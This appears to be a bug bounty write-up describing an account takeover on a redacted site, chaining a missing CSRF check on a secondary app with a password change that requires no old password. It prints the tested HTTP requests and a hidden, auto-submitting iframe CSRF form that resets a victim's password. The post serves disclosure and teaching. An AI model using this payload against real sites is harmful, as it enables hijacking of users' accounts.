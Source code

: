 ```yaml
---
layout: post
title: Account takeover chaining CSRF and weak password reset policy
subtitle: 
tags: [write-up, CSRF, high, takeaways, $swag]
comments: false
published: true
---
```


### Background

**A Cross-site request forgery (CSRF)**  is an attack that forces a user to execute unwanted actions on a website on which they are authenticated. In short, a request to update user password on [https://example.com](https://example.com) could be triggered if they visit [https://evil.com](https://evil.com) **IF** the former doesn't have any CSRF protections in place. 

A CSRF protection can consist of a randomly generated value included in the HTML page that is sent with the request and checked by the server to validate the request.


### Description

This program is made of a main application and multiple secondary applications to which you can connect independantly **OR** using oauth with the main application.

I first started to look for CSRF bypass in updating account request from the main application:

```
PUT /user/edit HTTP/1.1
Host: main.redacted.com

name=nkx&city=Paris&country=FR&twitter=NkxxkN&token=5MzcxNOMWresc09mzduKfAOYFiLnj0LdzB9SsPZfc3sfAk7tI629&password_old=old_password&password_new=new_password
```

I tried to:
  -  Remove `password_old=old_password` to see if the password could be changed without knowledge of the current password. That didn't work.
  - Remove the CSRF token from the request => `403 Forbidden`.
  - Leave the CSRF token fempty rom the request => `403 Forbidden`.
  - Set the CSRF token to true => `403 Forbidden`.
  - Use another user's CSRF token => `403 Forbidden`.

That was a dead end. Time to move on.

I signed up for one of the secondary websites. The technologies used here looked very similar to the ones from the main site. I tried updating my profile:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=nkx&city=Paris&country=FR&token=MEd4NzQ5Mzk3OQkB4m18_vv580eH3opIhalOOqg_Vv
```

Removing the token resulted in `200 OK` which means that CSRF attack is possible.

Now, it seemed that I could only change personal informations.
I went back to the first request and realised both requests were identical except that the second one was missing few arguments. The ones I was interested in where `old_password` and `new_password`.

Adding those arguments resulted in resetting the password:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=nkx&city=Paris&country=FR&password_old=old_password&password_new=new_password
```

Now I have a CSRF bypass to update user profile but I need to know the user password. Actually what happens if I remove `old_password`? 

Strangely enough, that worked. I had achieved a full account takeover **on the main domain** chaining a CSRF protection bypass with a weak password reset method.

The last issue is that even though I was able to reset someone's password, I had no notification of this happening. I needed a way to know if a user was tricked.

Fortunately, this request also allowed me to update the username which was reflected as a slug by going to publicly available user profile page: `https://main.redacted.com/profile/nkx`.


Final request:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=hacked-user&city=Paris&country=FR&password_new=account_takeover
```

After a victim visit on the malicious website, I can visit `https://main.redacted.com/profile/hacked-user` to verify that the attack worked and use the new username/password combination to login.

### Proof of concept:

Burp Suite provides a one-click proof of concept generator but I usually do not use it.
I like to provide the following proof of concept in my CSRF reports adapted from [Portswigger web security labs](https://portswigger.net/web-security/cors):

```html
<iframe hidden sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html, <body>
        <form id="csrf_form" action="https://www.secondary.redacted.com/user/edit" 
method="POST">
      <input type="submit" value="Submit request" />
      <input type="hidden" name="username" value="hacked-user" />
      <input type="hidden" name="password_new" value="account_takeover" />
    </form>
    </body>
    <script>
        document.getElementById("csrf_form").submit()
    </script>'>
</iframe>
```

This proof of concept doesn't require any user interaction except for visiting the malicious website which is a nice trick to enhance chances of the vulnerability being taken seriously by the triage team.
It might be obvious to you that this could be achieved without user interaction but it might not be for the triager.

### Takeaways

  - Identify, update, remove CSRF token on every requests performing sensitive user data changes.

  - This fairly simple vulnerability arise only on the paid version of this program. After you got your first bounty, never hesitate to spend a couple dollars to access features that have barely been touched by other hackers.

  - Always go the extra mile to make your attack scenario more plausible to maximize the chances of a successful triage.

### Summary

 - **Weakness**:
    - CSRF
    - Weak password reset policy
 - **Reward**: Swag